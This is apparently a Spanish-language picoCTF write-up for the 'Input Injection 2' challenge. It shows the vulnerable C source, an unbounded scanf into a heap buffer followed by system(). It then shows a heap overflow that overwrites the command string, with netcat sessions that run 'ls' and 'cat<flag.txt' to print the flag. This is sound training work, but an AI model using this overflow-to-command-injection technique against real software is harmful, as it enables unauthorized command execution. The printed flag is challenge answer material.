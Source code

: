 
## Reto
Input Injection 2

## Descripcion
This program greets you and then runs a command. But can you take control of what command it executes?

Additional details will be available after launching your challenge instance.

## Solucion
- al correr el programa no dice la ubicacion de username y shell en el heap
- despues nos pregunta por un nombre y al darselo nos dice hola y no dice cual es nuestro shell
- viando el codigo fuente 
```
int main(void) {
        char* username = malloc(28);
        char* shell = malloc(28);

        printf("username at %p\n", username);
    fflush(stdout);
        printf("shell at %p\n", shell);
    fflush(stdout);

        strcpy(shell, "/bin/pwd");

        printf("Enter username: ");
    fflush(stdout);
        scanf("%s", username);

        printf("Hello, %s. Your shell is %s.\n", username, shell);
        system(shell);
    fflush(stdout);

        return 0;
}

```
- vemos que despues de saludarnos corre el comando que hay en shell guardado
- tambien vemos que username no tiene limite de caracteres, pero se detiene al primer espacio que encuentra
- al correrlo vemos la ubicacion de username y shell:
```
username at 0x126a92a0
shell at 0x126a92d0
```
- como estan guardados en el heap significa que es posible un **heap overflow**, dicho de una forma, ambos estan en una memoria que va en linea y tienen asignado un espacio especifico dentro de esa lina
- pero si una varible se pasa de su espacio delimitado en la linea es posible que se atraviese a otra variable
  ![[Pasted image 20251004023029.png]]


- Como nos dan en que paerte de la memoria estan podemos hacer un calculo de hex y vemos que estan a 48 bytes de distancia
- entonces cuando nos pregunte por username pondremos cualquier cosa de 48 caracteres y en el 49 pondremos un comando:
```
lelouch1466-picoctf@webshell:~$ nc saffron-estate.picoctf.net 51607
username at 0x126a92a0
shell at 0x126a92d0
Enter username: ederavfnsdjnvjhaersfveresfersfesrferfesrferferwils
flag.txt
Hello, ederavfnsdjnvjhaersfveresfersfesrferfesrferferwils. Your shell is ls.
```
- como podemos ver, puse 'ls' al final y resulto en que se ejecuto el comando ls y me dejo ver que ahi esta la bandera como 'flag.txt'
- pero hay un pequeño problema para verla, ya que no podemos simplemente abrila con `cat flag.txt` porque en cuanto ponemos un espacio, usrname deja de guardarse
- para solucionar esto solo busque si hay otra forma de ajecutar cat sin espacio y encotre `cat<[archivo]` entonces lo ejecutamos:

```
lelouch1466-picoctf@webshell:~$ nc saffron-estate.picoctf.net 60671
username at 0x3d19c2a0
shell at 0x3d19c2d0
Enter username: ederavfnsdjnvjhaersfveresfersfesrferfesrferferwicat<flag.txt              
picoCTF{us3rn4m3_2_sh3ll_e7257819}Hello, ederavfnsdjnvjhaersfveresfersfesrferfesrferferwicat<flag.txt. Your shell is cat<flag.txt.
```
- y obtenemos la bandera: **picoCTF{us3rn4m3_2_sh3ll_e7257819}**
## Notas
- de nuevo chatgpt ayudo bastante pero no te da la respuesta
- tengo un artista dormido en mi

## Referencias
